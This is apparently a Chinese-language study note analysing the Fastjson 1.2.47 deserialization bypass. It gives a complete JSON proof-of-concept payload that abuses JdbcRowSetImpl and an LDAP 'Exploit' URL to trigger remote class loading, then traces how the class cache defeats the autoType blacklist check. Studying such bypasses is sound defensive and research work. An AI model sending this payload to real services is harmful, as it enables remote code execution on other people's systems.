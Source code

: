 最新漏洞1.2.47
poc
```json
{
"a":
 {
 "@type":"java.lang.Class",
 "val":"com.sun.rowset.JdbcRowSetImpl"
 },
 "b":
{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"ldap://localhost:1389/Exploit",
"autoCommit":true
}
}
```
Class类是不在黑名单内的，在MiscCodec类的deserialze函数里面可以看到会将val的值拿出来用来生成对应的对象，即JdbcRowSetImpl，但是我们并没法给JdbcRowSetImpl对象的成员变量赋值，
![](../attaches/Pasted%20image%2020230409180340.png)
继续往deserialze的下面看，当传入的@type的值为Class的时候会调用loadClass函数，
![](../attaches/Pasted%20image%2020230409180354.png)
再往下跟，有调了一下loadClass函数，多加了一个值为true的参数
![](../attaches/Pasted%20image%2020230409180434.png)
再跟进去可以看到因为传入的cache为true，所以会在mapping里面把JdbcRowSetImpl这个对象的实例和com.sun.rowset.JdbcRowSetImpl 对应起来，OK现在关于a的分析到此为止，
![](../attaches/Pasted%20image%2020230409180510.png)
我们该去跟着b了，看看为什么checkautotype()函数没把b给拦下来，直接去跟进checkautotype函数，当autotype为true的时候，虽然发现黑名单匹配了，但是TypeUtils.getClassFromMapping(typeName) ！=null所以不会抛出异常。